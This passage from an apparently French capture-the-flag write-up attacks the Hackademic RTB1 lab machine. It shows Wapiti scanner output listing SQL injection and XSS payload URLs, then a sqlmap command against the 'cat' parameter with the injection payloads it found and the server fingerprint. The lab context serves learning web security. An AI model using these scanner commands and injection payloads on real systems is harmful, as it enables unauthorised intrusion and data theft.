 ```plain
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?%BF%27%22%28
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?p=%BF%27%22%28
Injection MySQL dans http://192.168.1.62/Hackademic_RTB1/ via une injection dans le paramètre cat
  Evil url: http://192.168.1.62/Hackademic_RTB1/?cat=%BF%27%22%28

[+] Lancement du module xss
Faille XSS dans http://192.168.1.62/Hackademic_RTB1/ via une injection dans le paramètre cat
  Evil url: http://192.168.1.62/Hackademic_RTB1/?cat=%3Cscript%3EString.fromCharCode%280%2Cwjevynv26p%2C1%29%3C%2Fscript%3E

[+] Lancement du module blindsql
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?sleep%287%29%231
Une erreur HTTP 500 a été obtenue avec http://192.168.1.62/Hackademic_RTB1/
  Evil url: http://192.168.1.62/Hackademic_RTB1/?p=sleep%287%29%231

[+] Lancement du module permanentxss

Rapport
------
Un rapport a été généré dans le fichier /tmp/.wapiti/generated_report
Ouvrez /tmp/.wapiti/generated_report/index.html dans un navigateur pour voir ce rapport.
```

Un bon nombre d'erreurs 500 a été retourné. Une faille XSS a été trouvée mais ce qui nous intéresse vraiment c'est la faille SQL dans le paramètre *cat*.  

On enchaîne sur [SQLmap](http://sqlmap.org/) (je coupe l'output qui est trop long) :  

```plain
python sqlmap.py -u "http://192.168.1.62/Hackademic_RTB1/?cat=1" --dbms=mysql -p cat

sqlmap identified the following injection points with a total of 51 HTTP(s) requests:
---
Place: GET
Parameter: cat
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 6380=6380

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: cat=1 AND (SELECT 6274 FROM(SELECT COUNT(*),CONCAT(0x7166706571,(SELECT (CASE WHEN (6274=6274) THEN 1 ELSE 0 END)),0x7163637371,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: cat=1 AND SLEEP(5)
---
[15:03:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 13 (Goddard)
web application technology: PHP 5.3.3, Apache 2.2.15
```
